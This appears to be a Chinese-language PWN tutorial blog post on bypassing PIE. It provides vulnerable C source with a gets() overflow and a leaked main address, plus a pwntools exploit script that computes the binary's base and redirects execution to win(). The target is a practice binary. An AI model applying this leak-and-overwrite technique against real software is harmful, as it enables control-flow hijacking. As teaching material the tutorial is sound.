 ```yaml
---
title: 利用已泄漏信息绕过 PIE
subtitle:
date: 2023-08-22T10:43:04+08:00
draft: false
author:
  name: CuB3y0nd
  link:
  email:
  avatar:
description:
keywords:
license:
comment: true
weight: 0
tags:
  - PWN
  - Stack
categories:
  - PWN
hiddenFromHomePage: false
hiddenFromSearch: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: false
  url:
---
```


利用已泄漏信息绕过 PIE

<!--more-->

## 0x01 源码

{{< link href="/pwn_assets/pie-32.zip" content="pie-32.zip" title="Download pie-32.zip" download="pie-32.zip" card=true >}}

```c {title="source.c"}
#include <stdio.h>

int main() {
  vuln();

  return 0;
}

void vuln() {
  char buffer[20];

  printf("Main Function is at: %lx\n", main);

  gets(buffer);
}

void win() {
  puts("PIE bypassed! Great job :D");
}
```

程序输出 `main` 的地址，我们可以通过它来计算出基地址。然后我们可以利用这个基地址
计算出 `win()` 的地址。

## 0x02 分析

让我们运行该脚本以确保它是正确的 :D

```
$ ./vuln-32
Main Function is at: 0x5655f1b9
```

正如我们所期望的，它打印了 `main` 的地址。

## 0x03 利用

首先，让我们设置脚本。创建一个 `ELF` 对象（稍后会变得非常有用），然后启动该进程。

```python
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./vuln-32')
p = process()
```

现在我们要获取 `main` 函数的地址。为此，我们可以简单地接收它，然后读取。

```python
p.recvuntil('at: ')
main = int(p.recvline(), 16)
```

{{<admonition type="info">}}

由于我们接收了除地址之外的整行，因此只有地址才会出现在 `p.recvline()` 中。

{{</admonition>}}

现在我们将使用之前创建的 `ELF` 对象并设置它的基地址。`sym` 存储的是函数的相对偏移量，
我们只要用绝对地址减去相对偏移就可以得到基地址。

*设置基地址前 `sym` 字典中存储的是各函数的相对偏移量；设置基地址之后，`sym` 会变为存储
各函数的绝对地址。*

```python
elf.address = main - elf.sym['main']
```

在这个例子中，`elf.sym['main']` 将返回 `0x11b9` ；如果我们设置基地址后再次运行它，
它将返回 `0x11b9 + 基地址` 的值。本质上，我们是从泄漏的地址中减去 `main` 的偏移量，
以获得二进制文件的基地址。

现在我们有了可以调用 `win()` 的基本信息。我们可以调用 `win()` 了：

```python
payload = b'A' * 32
payload += p32(elf.sym['win'])

p.sendline(payload)

p.interactive()
```

{{<admonition type="info">}}

我假设你知道如何找到溢出 Padding 以及其他内容，因此我不会向你展示其中的每一步
具体该怎么做。希望你能通过自己的能力解决它们。

{{</admonition>}}

```
$ python exp.py
[*] 'vuln-32'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process 'vuln-32': pid 147342
PIE bypassed! Great job :D
```

## 0x04 最终 Exploit

```python {title="exp.py"}
from pwn import *

# context.log_level = 'debug'

elf = context.binary = ELF('./vuln-32')
p = process()

p.recvuntil('at: ')
main = int(p.recvline(), 16)

elf.address = main - elf.sym['main']

payload = b'A' * 32
payload += p32(elf.sym['win'])

p.sendline(payload)

p.interactive()
```

## 0x05 总结

通过泄漏的 `main` 地址，我们能够计算出二进制文件的基地址。由此我们可以计算出 `win`
的地址并调用它。

## 0x06 64-bit

自己尝试一下 64-bit 的版本该怎么绕过。

{{< link href="/pwn_assets/pie-64.zip" content="pie-64.zip" title="Download pie-64.zip" download="pie-64.zip" card=true >}}

